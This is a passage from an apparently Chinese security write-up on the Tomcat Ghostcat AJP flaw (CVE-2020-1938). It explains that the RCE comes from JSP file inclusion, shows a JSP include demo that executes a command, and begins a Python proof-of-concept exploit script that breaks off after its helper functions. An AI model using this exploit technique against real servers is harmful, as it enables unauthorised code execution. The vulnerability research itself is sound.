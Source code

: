 **后话**

我试了一下jsp的文件包含，这个demo下也是可以的，所以实际上RCE就是jsp的文件包含搞的鬼，要先上传一个文件，这个文件路径可被包含，然后读取模版解析，最后RCE。

```
Copy to clipboard//1.jsp
<%@ page language="java" import="java.util.*" pageEncoding="UTF-8" %>
<%@ include file="1.txt" %> `[//1.txt](//1.txt)

<%@ Runtime.getRuntime().exec(“open /System/Applications/Calculator.app”);%>` 
```

另外前面可能有师傅会问为什么是GET，原因是下面这个POC有`forwardrequest 2`，根据AJP数据包格式`第6个字节(02)代表是Get请求`。另外在Tomcat中也有相关映射关系，在 **AjpProcessor** 做 **prepareRequest** 处理的时候会根据字节选择相关的请求方式。

![image](../img/c46ffe5bd2bbdfdff1e13f97533910be.png)

### poc

```
cve-2020-1938_exp.py 
```

```
#!/usr/bin/env python
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:

# [https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html)

def pack_string(s):

if s is None:

return struct.pack(">h", -1)

l = len(s)

return struct.pack(">H%dsb" % l, l, s.encode(‘utf8’), 0)

def unpack(stream, fmt):

size = struct.calcsize(fmt)

buf = stream.read(size)

return struct.unpack(fmt, buf)

def unpack_string(stream):

size, = unpack(stream, “>h”)

if size == -1: # null string

return None

res, = unpack(stream, “%ds” % size)

```